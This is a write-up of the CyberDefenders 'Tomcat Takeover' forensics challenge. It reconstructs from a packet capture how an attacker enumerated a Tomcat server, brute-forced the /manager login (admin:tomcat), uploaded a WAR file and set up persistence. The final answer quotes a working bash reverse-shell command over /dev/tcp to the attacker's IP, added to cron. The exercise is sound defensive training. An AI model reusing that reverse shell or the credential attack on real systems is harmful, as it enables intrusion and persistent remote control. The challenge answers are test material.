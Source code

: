 # [CyberDefenders - Tomcat Takeover](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)
Created: 22/02/2024 10:30
Last Updated: 22/02/2024 11:32
* * *
>Category: Network Forensics
>Tags: Wireshark, PCAP, Tomcat, Network, NetworkMiner, T1071, T1083, T1110, T1027, T1053.003, T1059, T1595
* * *
**Scenario**:
Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:
- [Wireshark](https://www.wireshark.org/download.html)
- [NetworkMiner](https://www.netresec.com/?page=NetworkMiner)
***
## Questions
> Q1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

![3d442e3a446f348ae6685626b1ffd015.png](../../_resources/3d442e3a446f348ae6685626b1ffd015-1.png)
I used http filter and found that the server might be `10.0.0.112` running on port `8080`
![da93e93362697a2cb76dad531f5f9bbd.png](../../_resources/da93e93362697a2cb76dad531f5f9bbd-1.png)
![1dbc530e5e62dffe7cebc1cf8e7e745f.png](../../_resources/1dbc530e5e62dffe7cebc1cf8e7e745f-1.png)
I kept scrolling and found something suspicious, there were a lot of 4xx Error from the server response to `14.0.0.120` and it seems like this IP address is an attacker

Looking at the User-Agent, it seems like this attacker used [Gobuster](https://github.com/OJ/gobuster) a brute forcing tool to enumerate directories on the server
```
14.0.0.120
```

> Q2: 
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

![0b38b8b83f669ba738b2c7ce9058f73d.png](../../_resources/0b38b8b83f669ba738b2c7ce9058f73d-1.png)
```
Guangzhou
```

> Q3: 
From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?

![db7dfbf450ae4fd298ac76ac93c1f9a7.png](../../_resources/db7dfbf450ae4fd298ac76ac93c1f9a7-1.png)
```
8080
```

> Q4: 
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
```
gobuster
```

> Q5: Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

![ca2c8c1c6bbcf155ddee4e71611e47e0.png](../../_resources/ca2c8c1c6bbcf155ddee4e71611e47e0-1.png)
The `/admin` was not right so I kept scrolling and found that `/manager` is likely to be the one I was looking for
```
/manager
```

> Q6: Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

![c26fd6816301db342e91e572813a500d.png](../../_resources/c26fd6816301db342e91e572813a500d-1.png)
After found the admin panel, the attacker bruteforcing out
![ba68edd11dc8f034f44d5fc5f3b3a0e1.png](../../_resources/ba68edd11dc8f034f44d5fc5f3b3a0e1-1.png)
Follow the HTTP stream, And look like the user credential were presented on the page source but it's not the right one so I kept searching
![a19f3a664a15fbd1b1edc3347e9043cd.png](../../_resources/a19f3a664a15fbd1b1edc3347e9043cd-1.png)
And I finally found it, on the HTTP POST method
```
admin:tomcat
```

> Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

![14c85f398c10e8826b97d2312705f0ca.png](../../_resources/14c85f398c10e8826b97d2312705f0ca-1.png)
On the HTTP POST Method, I follow the TCP stream and found the file name of the uploaded file
```
JXQOZY.war
```

> Q8: Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

![bdc75ed35229fef54135ebceec256d2a.png](../../_resources/bdc75ed35229fef54135ebceec256d2a-1.png)
After the attacker uploaded a reverse shell to the server, the attacker triggered it and connection were established
![749fe59ca664cc6214844e825816513c.png](../../_resources/749fe59ca664cc6214844e825816513c-1.png)
I followed the TCP stream of that connection and found that the attacker added the bash reverse shell to cronjob so this is the way for an attacker to stay persistance
```
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

![7d75d6b9739a0c9a3eaeec231fc869ee.png](../../_resources/7d75d6b9739a0c9a3eaeec231fc869ee-1.png)
* * *